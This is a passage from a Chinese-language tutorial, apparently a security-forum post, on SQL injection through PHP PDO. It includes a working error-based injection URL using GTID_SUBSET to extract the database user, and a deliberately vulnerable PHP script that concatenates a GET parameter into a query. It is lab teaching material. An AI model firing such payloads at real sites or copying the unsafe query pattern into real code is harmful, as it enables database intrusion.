 $role是可控的，导致可实现堆叠注入和in line query

![image-20210526015752434](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-612a13f847bd9882a521d68d292e5370d905c637.png)

![image-20210526005239112](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3967039d72cf36c03c78eb3c8bb31d1a039cc5cf.png)

#### 2.3当设置PDO::ATTR\_ERRMODE和PDO::ERRMODE\_EXCEPTION开启报错时

设置方法

```php
$pdo-&gt;setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
```

无论是否开启PDO::ATTR\_EMULATE\_PREPARES-模拟预处理

此时SQL语句如果产生报错，PDO则会将报错抛出

除设置错误码之外，PDO 还将抛出一个 PDOException 异常类并设置它的属性来反射错误码和错误信息。

此设置在调试期间也非常有用，因为它会有效地放大脚本中产生错误的点，从而可以非常快速地指出代码中有问题的潜在区域

在这种情况下可以实现error-based SQL Injection

使用GTID\_SUBSET函数进行报错注入

```sql
http://192.168.1.3/pdo.php?role=id OR GTID_SUBSET(CONCAT((MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,190))),6700)&amp;username=admin&amp;username=admin
```

![image-20210526013121010](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fc9673fe210756cac6bdcfd1fd8aeface56d8005.png)

#### 2.4 非模拟预处理的情况

```php
&lt;?php
try {
    $pdo=new PDO('mysql:host=localhost;dbname=test','root','root');
    $pdo-&gt;setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    $pdo-&gt;setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
    $username = $_GET['username'];
    $sql = &quot;select id,&quot;.$_GET['role'].&quot; from user where username = ?&quot;;
    $stmt = $pdo-&gt;prepare($sql);
    $stmt-&gt;bindParam(1,$username);
    $stmt-&gt;execute();
    while($row=$stmt-&gt;fetch(PDO::FETCH_ASSOC))
    {
        var_dump($row);
        echo &quot;&lt;br&gt;&quot;;
    }
} catch (PDOException $e) {
    echo $e;
}
```

此时堆叠注入已经歇逼
